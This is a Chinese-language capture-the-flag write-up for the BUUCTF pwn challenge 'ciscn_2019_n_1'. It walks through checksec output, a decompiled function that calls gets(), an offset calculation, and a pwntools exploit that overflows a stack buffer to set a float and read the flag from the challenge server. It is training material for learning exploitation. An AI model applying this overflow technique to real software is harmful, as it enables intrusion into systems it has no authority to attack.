 ```yaml
---
title: ciscn_2019_n_1
date: 2022-07-08 12:56:45
permalink: /pages/f1e258/
categories:
  - 网络安全
  - pwn
tags:
  - 
author: 
  name: jimmy
  link: https://github.com/Riam-jimmy
---
```

# ciscn 2019 n 1

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec ciscn_2019_n_1
[*] '/root/ciscn_2019_n_1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数未发现漏洞点，漏洞在函数func如图

```c
int func()
{
  int result; // eax
  char v1[44]; // [rsp+0h] [rbp-30h] BYREF
  float v2; // [rsp+2Ch] [rbp-4h]

  v2 = 0.0;
  puts("Let's guess the number.");
  gets(v1);
  if ( v2 == 11.28125 )
    result = system("cat /flag");
  else
    result = puts("Its value should be 11.28125");
  return result;
}
```



发现溢出函数`gets`，另外若`v2==11.28125`成立，则直接可获得`flag`

## 思路分析

1. 分析:
   - `v1`处可溢出
   - `v1`与`v2`同时是栈上变量
   - `v2=0`
   - 当`v2=11.28125`时可直接获得`flag`
2. 思路:
   - 从`v1`直接溢出到`v2`处将`v2`修改为`11.28125`即可获得`flag`

## 确定偏移量

- 通过`ida`及简单的调试可知从`v1`到`v2`的偏移量为`0x30-4`

## 问题

`pwntools`中的`flat`无法打包`float`类型变量:

- 需要进行手动转换处理

```python
import struct
v1 = 11.28125
v1 = int(hex(struct.unpack('<I', struct.pack('<f', v1))[0]), 16)  # 4字节浮点数转16进制
```

## exp

```python
from pwn import *
import struct
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_n_1/ciscn_2019_n_1'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 27944)
padding = 0x30-4
v1 = 11.28125
v1 = int(hex(struct.unpack('<I', struct.pack('<f', v1))[0]), 16)  # 4字节浮点数转16进制
payload = flat(['a'*padding, v1])
io.recv()
io.sendline(payload)
io.interactive()
```